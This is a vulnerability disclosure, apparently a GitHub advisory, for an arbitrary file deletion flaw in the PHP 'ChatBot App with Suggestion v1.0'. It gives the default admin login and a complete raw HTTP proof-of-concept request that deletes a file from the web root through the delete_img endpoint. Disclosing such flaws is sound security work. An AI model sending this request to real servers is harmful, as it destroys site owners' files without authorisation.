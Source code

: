 # ChatBot App with Suggestion v1.0 by oretnom23 has Delete any file

vendors: https://www.sourcecodester.com/php/15316/chatbot-app-suggestion-phpoop-free-source-code.html

Vulnerability File: /simple_chat_bot/classes/Master.php?f=delete_img

Vulnerability location: /simple_chat_bot/classes/Master.php?f=delete_img, path

The password for the backend login account is: admin/admin123

Payload:

Here we delete the shell.php file in the root directory

```sql
POST /simple_chat_bot/classes/Master.php?f=delete_img HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Referer: http://192.168.1.19/simple_chat_bot/admin/?page=system_info
Cookie: PHPSESSID=qq2e8htekg3g2rkgtbq38p0jnv
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 56

path=C%3A%2Fxampp%2Fhtdocs%2Fsimple_chat_bot%2Fshell.php
```

The file path needs to be encoded by url

![image](https://user-images.githubusercontent.com/54017627/170819752-b5c37e61-4797-40b2-9c63-74bcef6e5914.png)

Currently, when we do not send a request to delete the shell.php file, the shell.php file is still in the root directory of the website

![image](https://user-images.githubusercontent.com/54017627/170819766-9f8fc3d5-38bf-41d9-81ba-e88f931bdf89.png)

The response package shows that the deletion was successful. Let's go to the root directory to see if the shell.php file still exists.

![image](https://user-images.githubusercontent.com/54017627/170819774-58054c9c-8f64-4d97-82e7-2b4e9f3fcc26.png)

By this time, shell.php has been deleted.

![image](https://user-images.githubusercontent.com/54017627/170819786-ad331484-ce94-4eff-8276-73ba0637c4b6.png)
